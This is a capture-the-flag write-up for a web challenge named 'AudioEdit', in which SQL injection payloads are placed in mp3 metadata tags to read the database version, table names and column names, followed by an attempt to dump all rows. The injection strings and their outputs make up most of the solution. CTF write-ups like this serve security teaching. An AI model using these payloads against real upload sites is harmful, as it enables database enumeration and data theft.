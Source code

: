 ```yaml
---
layout: writeup
title: 'AudioEdit'
level:
difficulty:
points: 200
categories: [web exploitation]
tags: []
flag:
---
```

**Challenge**   
I made a cool site to edit audio files. [Can you exploit it?][1]

**Solution**   
The website lets you upload mp3 files and then displays some metadata
and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can:
(exiftool doesn't do exifdata updates for mp3 so we used easytag)

    foo', (SELECT VERSION())) -- -
    > Author: foo
    > Title: 5.5.49-0ubuntu0.14.04.1
    
    foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
    > Author: foo
    > Title: audioedit
    
    foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
    > Author: foo
    > Title: id,file,author,title
    
    foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
    > error inserting into database



[1]: http://107.170.122.6/audioedit/
